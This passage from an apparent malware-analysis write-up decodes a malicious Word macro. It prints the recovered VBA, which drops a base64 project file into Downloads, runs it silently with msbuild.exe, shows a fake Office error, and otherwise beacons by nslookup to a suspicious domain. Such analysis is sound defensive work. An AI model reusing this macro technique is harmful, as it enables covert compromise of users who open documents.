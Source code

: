 

### Dumping Document Variables

I couldn't find a good way to dump document variables using `olevba` or
`oledump`. If you know of one, please leave a comment. So I wrote some
VBA to do it:



    Sub ListVariables()

        For Each avar In ActiveDocument.Variables
          Debug.Print avar.Name & ":" & avar.Value
        Next avar

    End Sub





    2018:ter.csproj
    Airport:v3.5
    Bank:\Downloads\
    Beach:ipt.Sh
    Cali:ell
    Fun:PFByb2plY3QgVG9vbHNWZXJz...snip...PC9Db2RlPgogICAgPC9UYXNrPgogIDwvVXNpbmdUYXNrPgo8L1Byb2plY3Q+Cgo=
    LAX:v4.0.30319
    Northern:WScr
    Panic:This application appears to be made on an older version of the Microsoft Office product suite. Visit https://microsoft.com for more information. [ErrorCode: 4439]
    Retail:\Microsoft.NET\Framework\
    Revenue:WordUpda
    Running:d.exe
    Shoes:%userprofile%
    Shrink:\msbuil
    Stores:%systemroot%
    Waves:Microsoft Office Corrupt Application (Compatibility Mode)



### Unobfuscated VBA

With the variables in hand, we can now make very readable VBA:



    Sub WordUpdateCheck()

        Dim helper, fso, file, folderPath, filePath, version
        Set helper = CreateObject("WScript.Shell")
        Set fso = CreateObject("Scripting.FileSystemObject")
        folderPath = helper.ExpandEnvironmentStrings("%systemroot%) & "\Microsoft.NET\Framework\v4.0.30319"
        If (fso.FolderExists(folderPath)) Then
            filePath = helper.ExpandEnvironmentStrings("%userprofile%") & "\Downloads\WordUpdater.csproj"
            If Not (fso.FileExists(filePath)) Then
                Set file = fso.CreateTextFile(filePath, True)
                file.Write DecodeBase64([big base64 blob]) & vbCrLf
                file.Close
                helper.Run folderPath & "\msbuild.exe " & filePath, 0, False
                MsgBox "This application appears to be made on an older version of the Microsoft Office product suite. Visit https://microsoft.com for more information. [ErrorCode: 4439]", vbExclamation, "Microsoft Office Corrupt Application (Compatibility Mode)"
            End If
        Else
            helper.Run "nslookup.exe pwdas71.healthservices-dns.com"
        End If
    End Sub
